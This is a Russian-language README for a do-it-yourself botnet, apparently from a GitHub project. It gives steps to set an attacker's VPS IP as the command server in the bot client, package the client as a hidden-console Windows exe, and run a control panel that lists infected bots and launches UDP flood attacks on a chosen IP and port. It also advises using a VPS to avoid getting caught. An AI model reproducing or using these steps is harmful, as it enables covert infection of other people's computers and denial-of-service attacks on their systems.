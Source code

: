 <h1 align="center">Подпишись на мой телеграмм <a href="https://t.me/samurai_figure" target="_blank">N∆RI</a> 
<img src="https://github.com/blackcater/blackcater/raw/main/images/Hi.gif" height="32"/></h1>
<h3 align="center">Простой бот-нет своими руками ot N∆RI</h3>
Можно также использовать как панель для VPS ботнета <br>
Клонируем гит <br>
 
```shell
git clone https://github.com/Samuraianonweb/bot
```
<br>
 
```shell
cd bot
```
<br>
Чтобы не попасться , лучше использовать VPS<br>

Чтобы узнать свой(VPS) ip 
 
​```shell
$ ifconfig <br>
```
Редактируем файл smss.py

<br>
run=False
	def __init__(self, connect:Tuple[str,int]=("вставляем свой ip",9999)) -> None:
<br>

Когда всё подготовленно , осталось зделать с Python  в EXe файл<br>

Установка pyinstaller<br>
 
```shell
pip install pyinstaller
```

После полной установки в нашем директории bot <br>
Приступаем к билду exe <br>
 
```shell
pyinstaller --onefile --noconsole smss.py<br>
 
​```
Флаг --onefile собирает всё в один файл<br>
Флаг --noconsole делает так чтобы при запуске скрывалась консоль <br>
После того как наш файл exe создался можно начать с панели <br>

Запуск панели 
 
```shell
python Server.py
```
Вводим help и видем всё настройки 
update - Для обновления листа ботов 
list - Показать активных ботов 
Команда атаки<br>
 
```shell
attack udp <ip> <port> <time in second> <thread>
```
